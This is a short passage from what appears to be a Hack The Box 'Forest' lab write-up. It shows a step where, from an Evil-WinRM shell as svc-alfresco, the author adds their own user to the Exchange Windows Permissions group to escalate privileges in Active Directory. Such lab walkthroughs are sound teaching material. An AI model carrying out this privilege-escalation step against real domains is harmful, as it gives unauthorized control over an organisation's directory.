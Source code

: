     ![](/assets/img/htb/machines/windows/easy/forest/amirr0r.png)

2. Add this user to the **Excange Windows Permissions** group:

    ```powershell
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" /add amirr0r
    The command completed successfully.
    ```

    ![](/assets/img/htb/machines/windows/easy/forest/net_user.png)

